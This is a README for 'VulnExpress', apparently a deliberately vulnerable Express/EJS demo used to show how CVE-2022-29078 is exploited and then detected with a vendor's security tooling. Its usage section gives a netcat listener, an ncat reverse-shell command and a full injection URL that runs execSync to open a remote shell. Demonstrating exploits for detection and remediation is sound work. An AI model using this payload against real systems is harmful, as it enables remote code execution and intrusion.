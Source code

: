 # VulnExpress 

## Overview
This a emo Express JS application to illustrate how a critical vulnerability can be exploited and how it could have been detected and remediated using [Jfrog Advanced Security](https://jfrog.com/advanced-security/) new features.


## Build the project and the docker image

Build the project
`npm install`
run it locally
`npm start`

Build the docker image

`docker build . -t vuln-ejs:latest`
Run it

`docker run -p 3000:3000 vuln-ejs:latest`

## Usage

1 - With netcat start listening on a given host, on the port 1337 for example

`nc -lv 1337`

Then we will exploit CVE-2022-29078 RCE to create a remote shell by issuing the following command in the container
`ncat host.docker.internal 1337 -e /bin/bash`

Note : pay attention that the netcat command may differs between the host OS & the container's distro (in macosx is it `nc`, while in the container it is `ncat`)
2 - To do that you will exploit the vulnerabilities using the following url 

`http://localhost:3000/?id=David&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync(%27ncat%20host.docker.internal%201337%20-e%20/bin/bash%27);s`

Replace `host.docker.internal` if needed, to open your remote shell where your step 1 netcat processing is listening.